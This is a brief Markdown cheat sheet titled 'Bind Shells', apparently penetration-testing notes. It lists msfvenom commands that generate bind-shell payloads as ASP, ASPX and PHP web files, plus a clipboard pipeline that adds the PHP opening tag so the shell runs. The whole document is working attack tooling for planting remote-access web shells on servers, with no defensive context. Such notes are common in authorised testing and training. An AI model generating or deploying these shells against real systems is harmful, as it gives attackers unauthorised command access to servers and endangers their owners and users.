 # Bind Shells

## 01 - ASP

```
$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f asp -o shell-x86.asp

$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f asp -o shell-x64.asp
```

## 02 - ASPX

```
$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f aspx -o shell-x86.aspx

$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f aspx -o shell-x64.aspx
```

## 03 - PHP

PHP bind callback shell

```
$ msfvenom -p php/bind_php lhost=<IP> lport=<PORT> -f raw -o shell.php
```

PHP with perl code bind callback shell

```
$ msfvenom -p php/bind_perl lport=<PORT> -f raw -o shell.php
```

After generating the PHP reverse callback shell include the tags to ensure execution.

```
$ cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php
```
